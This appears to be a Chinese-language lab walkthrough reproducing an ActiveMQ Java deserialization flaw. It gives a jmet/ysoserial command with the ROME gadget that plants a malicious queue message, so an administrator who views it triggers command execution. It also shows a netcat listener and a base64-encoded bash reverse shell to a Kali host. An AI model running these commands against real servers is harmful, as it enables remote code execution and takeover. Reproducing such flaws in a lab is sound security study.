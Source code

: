 jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial ，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME 

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过 `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` 看到这个队列中所有消息，管理员查看这条消息即可触发命令执行

**漏洞复现**

修改 jdk 为 /usr/local/jdk1.8.0_202/bin/java              0802

```shell
┌──(root㉿kali)-[~]
└─# sudo update-alternatives --config java
```

```
有 2 个候选项可用于替换 java (提供 /usr/bin/java)。

  选择       路径                                       优先级  状态
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      自动模式
  1            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      手动模式
  2            /usr/local/jdk1.8.0_202/bin/java              0802       手动模式

要维持当前值[*]请按<回车键>，或者键入选择的编号：2
```

查看版本

```shell
┌──(root㉿a-kali-23)-[~]
└─# java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service && nc -lnvp 4444
```

将 payload 使用 base64 编码

```shell
┌──(root㉿kali)-[~]
└─# echo "bash -i >& /dev/tcp/kali.local/4444 0>&1" | base64
```

下载  [jmet-0.1.0-all.jar](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar) 文件
